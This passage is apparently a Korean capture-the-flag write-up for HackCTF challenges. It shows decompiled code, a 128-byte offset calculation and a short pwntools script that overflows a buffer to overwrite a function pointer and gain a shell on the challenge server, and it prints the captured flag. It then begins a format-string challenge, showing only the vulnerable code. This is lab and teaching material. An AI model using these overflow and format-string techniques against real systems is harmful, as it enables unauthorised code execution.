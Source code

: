 ```c
  return system("/bin/dash");
}

// shell addr : 0x804849B
```
<strong>1번과 마찬가치로 IDA를 이용해서 코드로 변환해주었습니다. 코드를 보니 문자열 변수 s와 함수 포인터 v5를 정의하는 것을 볼 수 있습니다. 그리고 마지막에는 v5 함수를 호출하고 있습니다. BOF 취약점을 이용해서 v5 포인터 변수의 값으로 shell 함수의 주소를 넣어주면 v5 함수를 호출 할 때 shell 함수가 호출이 될 것 입니다.</strong><br>

```
*v5 = 8Ch - Ch
*v5 = 128
```
<strong>*v5는 s와 128만큼 떨어져 있다는 것을 알 수 있습니다.</strong><br>

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3001)

payload = b'a' * 128
payload += p32(0x804849B)

p.sendline(payload)
p.interactive()
```

> FLAG : HackCTF{h3y_dud3_600d_f0r_y0u}

---
HackCTF Challenge : Basic_FSB

```c
// main

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  vuln();
  return 0;
}
```

```c
// vuln

int vuln()
{
  char s; // [esp+0h] [ebp-808h]
  char format; // [esp+400h] [ebp-408h]

  printf("input : ");
  fgets(&s, 1024, stdin);
  snprintf(&format, 0x400u, &s);
  return printf(&format);
}
```
